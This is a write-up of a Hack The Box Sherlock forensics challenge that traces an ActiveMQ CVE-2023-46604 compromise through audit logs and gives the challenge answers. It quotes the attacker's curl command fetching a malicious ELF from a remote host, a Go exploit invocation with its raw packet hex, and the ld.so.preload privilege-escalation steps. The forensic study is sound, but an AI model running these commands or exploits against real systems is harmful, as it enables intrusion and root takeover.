---
tags:
  - htb
  - sherlock
  - easy
  - post
urls:
---
---
# HTB Sherlock - BrokerD Writeup

> **Scenario:** The incident was initiated when the organization's security monitoring systems flagged unusual activity and potential signs of compromise. The defensive team promptly recognized that they were confronting a highly skilled and determined attacker. You have been furnished with all the essential logs needed for analysis to pinpoint the root cause. Lets begin...

# QUESTIONS

1. What is the name of the installed service on the victim machine susceptible to a remote code execution vulnerability?

**Answer:** `ActiveMQ`

Listing the running services returns the service `ActiveMQ`, vulnerable to `CVE-2023-46604` that allows RCE:
```bash
systemctl list-units --type=service --state=running
```



Making use of `lsof` also returns the services:

```bash
lsof -i -n
```



2. Which version of Apache ActiveMQ is installed in the victim machine ?

**Answer:** `5.15.15`

Showing the information of the service returns the version:
```bash
systemctl status activemq
```



An alternative way is to look for the installation files in `/opt`:
```bash
find /opt -iname 'activemq'
```



3. Which CVE is associated with the installed service identified above that can lead to Remote Code Execution?

A quick Google search returns the CVE associated to `ActiveMQ`:



4. In which directory did the application drop the reverse shell after the exploitation?

**Answer:** `/opt/apache-activemq-5.15.15/bin/test.elf`

[CVE-2023-46604](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/blob/main/poc-linux.xml) executes a XML file called `poc-linux.xml`:


Present inside this XML file there are instructions to download and execute a malicious `.elf` named `test.elf`: 



Searching the file in the logs inside `/var/log/audit` reveals the successful download and execution of said file from IP and port `10.10.0.74:8001`:

```bash
grep "test.elf" /var/log/audit/*
```



The file is also present in the `ActiveMQ` directory:

```bash
find /opt/apache-activemq-5.15.15/ -type f -name test.elf
```




5. Which command was resposible for dropping the above ELF file ?

**Answer:** `curl -s -o test.elf http://10.10.0.74:8001/test.elf`

`curl` was utilized to download the malicious `ELF` file.

6. Which class and method is responsible for starting arbitrary processes once the 'poc-linux.xml' file is loaded?

**Answer:** `java.lang.ProcessBuilder.start`

Both the class and method are visible inside the `poc-linux.xml` file:



The mentioned `java.lang.ProcessBuilder` class is used to create operating system processes, meanwhile the methoed `start` creates a new process instance with the specified attributes.

7. The victim IP at the time of exploitation was '10.10.0.84' and from our previous analysis we also know the attacker IP, vulnerable port number and URL where the malicious XML file was hosted. Recreate the RAW packet using the GoLang exploit already available on Github.

**Answer:** `000000771f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010024687474703a2f2f31302e31302e302e37343a383030312f706f632d6c696e75782e786d6c`

To recreate the packet sent by the [exploit](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ), the IP where the `ActiveMQ` instance is hosted, the port and the attacker IP hosting the XML file are needed:

```bash
go run main.go -i 10.10.0.84 -p 61616 -u http://10.10.0.74:8001/poc-linux.xml
```



8. As the 'activemq' user, the attacker has identified a potential command that can be executed with 'sudo' and no password. What is the command?

**Answer:** `nginx`

Reading the `/etc/sudoers` file specifies what command the user `activemq` can execute as `root`:

```bash
vim /etc/sudoers
```



9. In which directory did the attacker download '.so' library file?

**Answer:** `/tmp/libhax.so`

Filtering for downloaded `.so` files using either `curl` or `wget` in the audit logs reveal the directory used:

```bash
grep -E "curl|wget" /var/log/audit/* | grep "\.so"
```



10. What is the name of the configuration file that the attacker downloaded and subsequently loaded into the application?

**Answer:** `nginx.conf`

This time filtering for `.conf` files identifies the configuration file:

```bash
grep -E "curl|wget" /var/log/audit/* | grep "\.conf"
```



11. The attacker configured 'nginx' errors to be logged to '\etc\ld.so.preload'. Which command did the attacker use to force 'ld.so.preload' to load the identified '.so' library?

**Answer:** `curl localhost:1337/tmp/libhax.so`

The attacker redirects the `nginx` errors to `\etc\ld.so.preload`, by making `nginx` generate an error, the literal string `/tmp/libhax.so` will be written to the `ld.so.preload`, effectively hijacking the shared object paths:

```bash
grep -i "libhax.so" /var/log/audit/*
```



The `ld.so.preload` file is empited after every 10 minutes via a cron job:

```bash
cat /etc/cron.d/*
```




12. The attacker has also placed .C files in a folder with writable permissions. Identify the directory and files to determine which binary was granted root permissions after exploitation.

**Answer:** `rootshell`

The `libhax.c` file present in the activemq user directory grants root permissions to the file `rootshell` in `/tmp`:



13. Which service did the attacker terminate after the exploitation?

**Answer:** `nginx`

The attacker ran the script `cleanup.sh` with the following content, effectively terminating `nginx` 3 times:


